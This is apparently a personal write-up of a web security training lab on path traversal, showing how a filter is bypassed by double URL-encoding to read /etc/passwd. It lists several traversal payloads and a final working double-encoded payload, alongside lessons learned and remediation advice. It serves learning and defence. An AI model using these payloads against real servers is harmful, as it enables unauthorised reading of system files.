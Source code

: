 ## 🧪 Lab: File Path Traversal - Traversal Sequences Stripped with Superfluous URL-decode  
**Level**: Practitioner  
**Date**: June 14, 2025  
**Goal**: Read `/etc/passwd` despite sanitization and double encoding defenses.

---

### 🧰 Tools
- Burp Suite (Repeater / URL Encoder)

---

### 🧭 Steps

1. **Intercept product image URL**  
   - Capture image request from product page:
     ```
     GET /image?filename=218.png
     ```

2. **Send request to Repeater**

3. **Try standard payloads**  
   - Absolute path:
     ```
     /etc/passwd
     ```
   - Sequential path:
     ```
     ../../../etc/passwd
     ```
   - Recursive/obfuscated path:
     ```
     ....//....//....//....//etc/passwd
     ```
   - None of these work due to early input sanitization.

4. **Use clean traversal payload**

../../../../etc/passwd

markdown
Copy
Edit

5. **URL encode the payload once**  
- Result:
  ```
  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
  ```

6. **URL encode it again (double encoding)**  
- Final payload:
  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```

7. **Send the double-encoded payload**  
- Lab is successfully solved and `/etc/passwd` contents are returned.

---

### 💣 Payload

  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```
---

### 💡 What I Learned
- Application sanitizes traversal sequences **before processing the input**.
- Basic and recursive payloads are stripped early — only **double encoding** works.
- URL encoding tricks can bypass flawed sanitization routines.
- Reinforced the importance of **server-side input validation**, not just client-side filters.

---

### 🔒 Remediation
- Sanitize and validate user input server-side.
- Apply **deep decoding** detection to identify malicious inputs.
- Prevent double-encoded payloads from being parsed into dangerous paths.
- Avoid exposing URLs for internal file access.

---

### 📌 Notes
- This lab inspired me to build a dedicated GitHub repo with common traversal payloads — from absolute to recursive and encoded variants.
- Learned to use Burp Suite Encoder effectively.
